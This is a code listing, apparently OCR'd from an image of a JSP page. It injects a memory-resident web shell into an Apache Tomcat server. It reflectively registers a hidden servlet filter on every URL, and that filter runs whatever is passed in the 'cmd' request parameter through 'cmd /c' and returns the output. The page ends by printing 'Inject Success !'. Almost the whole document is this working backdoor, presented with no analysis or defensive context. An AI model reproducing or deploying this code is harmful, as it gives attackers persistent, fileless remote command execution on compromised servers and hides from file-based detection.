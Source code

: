```
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>



    Title



```